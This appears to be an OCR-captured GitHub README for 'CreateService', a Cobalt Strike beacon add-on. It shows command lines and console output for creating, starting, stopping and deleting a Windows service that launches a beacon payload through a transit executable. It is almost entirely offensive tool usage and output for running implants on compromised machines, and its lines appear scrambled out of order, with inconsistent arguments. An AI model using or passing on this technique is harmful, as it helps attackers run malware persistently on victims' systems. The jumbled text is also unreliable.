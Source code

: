 
    [+] EvilPathName: C:\Users\Administrator\Desktop\beacon.exe
    [+] EvilPathName: C:\Users\Administrator\Desktop\test.exe
    [+] ServiceName: test
    [+] Success! Service successfully Create and Start.
    [+] Success! Service successfully Stop and Delete.
    [+] TransitPathName: C:\Users\Administrator\Desktop\TransitEXE.exe
# CreateService
## Cobalt Strike RDI
C:\Users\Administrator\Desktop>CreateService.exe "C:\Users\Administrator\Desktop\TransitEXE.exe" "C:\Users\Administrator\Desktop\test.exe" test start
[*] CreateService by Uknow
[*] Tasked beacon to spawn CreateService ....
[+] arguments are:C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test start
[+] arguments are:C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test stop
[+] host called home, sent: 103052 bytes
[+] host called home, sent: 103053 bytes
[+] received output:
```
beacon> CreateService C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test start
beacon> CreateService C:\Users\Administrator\Desktop\TransitEXE.exe C:\Users\Administrator\Desktop\beacon.exe test stop

